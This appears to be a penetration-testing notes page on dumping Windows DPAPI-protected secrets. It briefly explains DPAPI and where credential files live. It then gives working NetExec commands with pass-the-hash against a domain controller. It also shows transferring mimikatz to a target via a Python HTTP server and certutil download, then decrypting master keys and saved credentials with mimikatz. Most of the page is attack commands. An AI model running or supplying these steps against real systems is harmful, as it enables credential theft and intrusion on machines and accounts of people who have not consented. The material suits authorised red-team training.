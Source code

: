 # DPAPI

The **Data Protection API** (DPAPI) is a **built-in feature** of the Windows operating system that enables applications to securely store sensitive data, such as **passwords**. \
This information is saved within the **user’s profile directory** and is protected using **user-specific master keys**, which are derived from the user's password.&#x20;

These protected files are typically found at:

```powershell
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```

Several applications (Google Chrome, Outlook, Internet Explorer, and Skype) utilize DPAPI to safeguard sensitive information. \
Windows itself also relies on DPAPI to store items like Wi-Fi passwords, digital certificates, Remote Desktop credentials, and more.

Common locations where DPAPI-encrypted data may be stored include:

```powershell
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
```



## DPAPI with NetExec

Extract possible clear-text password using dpapi and NetExec.

<pre class="language-bash"><code class="lang-bash">nxc smb DC_IP -u 'USER' -p 'PASS' --dpapi
<strong>nxc smb DC_IP -u 'USER' -H 'LM_HASH' --dpapi
</strong></code></pre>



## DPAPI with Mimikatz (Windows)

Transfer the `mimikatz.exe` into Windows target system.

```bash
# attack machine
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
python3 -m http.server 80

# target machine
certutil -urlcache -f http://$IP/mimikatz.exe mimi.exe
```

### Get DPAPI MasterKey

First things first, we have to obtain the masterkey by extracting and decryping it.

View the enable masterkeys to dencrypts:

```
dir C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SID\
```

{% code title="mimikatz.exe dpapi::masterkey" overflow="wrap" %}
```powershell
.\mimikatz.exe 'dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SID\$GUID" /sid:$SID /password:$USER_PASSWORD /protected' exit
```
{% endcode %}

{% embed url="https://tools.thehacker.recipes/mimikatz/modules/dpapi/masterkey" %}

{% code title="Output" overflow="wrap" %}
```
[...snip...]
[masterkey] with password: Password123! (protected user)
  key : MASTERKEY_TO_COPY
  sha1: MASTERKEY_SHA1
```
{% endcode %}



### Decrypt DPAPI saved creds

With the MasterKey we can decrypt the protected files.

{% code title="mimikatz.exe dpapi::cred " overflow="wrap" %}
```powershell
.\mimikatz.exe 'dpapi::cred /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\$PROTECTED_FILE" /masterkey:$MASTERKEY' exit
```
{% endcode %}

{% embed url="https://tools.thehacker.recipes/mimikatz/modules/dpapi/cred" %}



## Resources

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets" %}
